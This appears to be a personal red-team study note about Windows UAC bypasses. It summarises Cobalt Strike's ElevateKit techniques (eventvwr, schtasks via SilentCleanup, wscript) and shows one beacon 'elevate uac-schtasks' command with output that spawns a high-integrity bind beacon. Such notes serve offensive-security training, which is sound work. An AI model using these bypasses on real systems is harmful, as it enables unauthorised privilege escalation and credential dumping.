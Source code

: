 User Account Control (UAC) is a technology that exists in Windows which forces applications to prompt for consent when requesting an administrative access token.

A UAC "bypass" is a technique that allows a medium integrity process to elevate itself or spawn a new process in high integrity, without prompting the user for consent.  Being in high integrity is important for attackers because it's required for various post-exploitation actions such as dumping credentials.

## 🚀 - [[Cobalt Strike]] [Elevate Kit](https://github.com/cobalt-strike/ElevateKit)
---
1. The ElevateKit comes with several techniques including UAC bypasses:

- uac-eventvwr: Bypass UAC with eventvwr.exe
- uac-schtasks: Bypass UAC with schtasks.exe (via SilentCleanup)
- uac-wscript: Bypass UAC with wscript.exe

For example:

```
beacon> elevate uac-schtasks tcp-local
[*] Tasked Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444) in a high integrity context
[+] established link to child beacon: 10.10.123.102
```

![[uac-bypass.png]]

---

### Properties
---
📆 created   {{10-02-2024}} 15:15
🏷️ tags: #redteam #crto   

---
